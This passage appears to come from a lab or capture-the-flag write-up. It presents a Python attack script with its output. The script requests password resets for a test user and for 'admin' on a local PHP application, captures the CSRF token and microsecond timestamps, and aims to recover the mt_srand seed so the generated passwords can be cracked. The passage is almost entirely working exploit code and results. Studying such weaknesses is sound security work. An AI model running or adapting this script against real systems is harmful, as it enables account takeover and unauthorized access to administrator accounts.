 
Let's start our attack script:
```python
import time
import requests
from bs4 import BeautifulSoup

def get_csrf(s):
    """
    Parse the login.php page for the CSRF token
    """
    r = s.get('http://127.0.0.1/login.php')
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'token'})
    csrf_token = csrf_input['value']

    return csrf_token


def reset_pass(username, session, csrf):
    """
    Send a password reset request
    """
    data = {
        'uid': username,
        'token': csrf,
        'submit': ''
    }

    # don't follow redirect or else you'll land back on login.php and
    # force CSRF generation, causing mt_srand to re-seed and thus the passwords
    # will be generated using a differnt seed than the one we will crack
    response = session.post('http://127.0.0.1/modules/reset.inc.php', data=data, allow_redirects=False) 
    return csrf

# start a session to keep these requests under one PID
session = requests.session()
# get seconds and microseconds of the time that we send the request
sec = int(time.time())
microsec = int(time.time_ns() / 1_000) % 1_000_000
# grab the CSRF token
csrf = get_csrf(session)
# send a password reset request for our user
reset_pass('test', session, csrf)
print(csrf)
print(sec)
print(microsec)

# do the same with the admin reset request
sec = int(time.time())
microsec = int(time.time_ns() / 1_000) % 1_000_000
csrf = reset_pass('admin', session, csrf)
print(sec)
print(microsec)
```
```
OUTPUT:

53d2a5278ce7145d0a8f20a5f086591b
1688929912
122821

1688929912
198843
```